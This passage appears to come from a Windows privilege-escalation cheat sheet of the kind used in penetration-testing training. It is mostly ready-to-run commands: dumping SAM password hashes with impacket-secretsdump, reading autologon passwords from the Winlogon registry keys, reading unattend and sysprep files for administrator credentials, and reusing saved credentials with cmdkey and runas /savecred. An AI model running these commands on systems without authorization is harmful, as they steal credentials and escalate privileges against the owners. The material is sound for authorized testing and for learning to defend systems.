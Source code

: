 ```
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```

### Auto-Logon Credentials

```
Get-RegistryAutoLogon               -   PowerUp checks for Autologon credentials in the registry
```

```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersio\Winlogon"

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUsername

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultAutoAdminLogon
```

### Unattended Windows Installations

Such installations require the use of an administrator account to perform the initial setup, which might end up being stored in the machine in the following locations:

```
type C:\Unattend.xml
dir C:\Windows\Panther\
type C:\Windows\Panther\Unattend.xml
dir C:\Windows\Panther\Unattend\
type C:\Windows\Panther\Unattend\Unattend.xml
type C:\Windows\System32\sysprep.inf
dir C:\Windows\System32\Sysprep\
type C:\Windows\System32\Sysprep\Sysprep.xml
type C:\Windows\System32\Sysprep\Sysprep.inf

Get-ChildItem -Path C:\ -Include unattend.xml,sysprep.xml,sysprep.inf -Recurse -ErrorAction SilentlyContinue
```

### Saved Windows Credentials

Windows allows us to use other users' credentials. This function also gives the option to save these credentials on the system. The command below will list saved credentials:

```
cmdkey /list
```

While you can't see the actual passwords, if you notice any credentials worth trying, you can use them with the `runas` command and the `/savecred` option, as seen below:

**RDP**

If you have an RDP session:

```
runas /savecred /user:admin cmd.exe
runas /savecred /user:admin powershell.exe
```
